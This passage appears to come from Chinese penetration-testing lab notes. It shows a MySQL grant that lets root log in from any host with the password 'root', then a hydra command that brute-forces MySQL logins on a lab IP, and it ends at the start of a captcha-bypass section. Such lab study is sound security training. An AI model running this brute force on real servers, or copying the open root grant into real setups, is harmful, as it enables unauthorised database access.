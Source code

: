 ![Alt text](image-71.png)   
```mysql
 grant all privileges on *.* to root@'%' identified by 'root';
```
![Alt text](image-72.png)
### 6.3 爆破
```shell
 hydra 192.168.228.137 mysql -l root -P /home/kali/learn/passwd.txt -vV -f -e ns 
```   
![Alt text](image-73.png)   
成功爆破。
# 五、验证码安全
环境：pikaqiu
## 1. 验证码绕过（on client）+ 验证码绕过（on server）   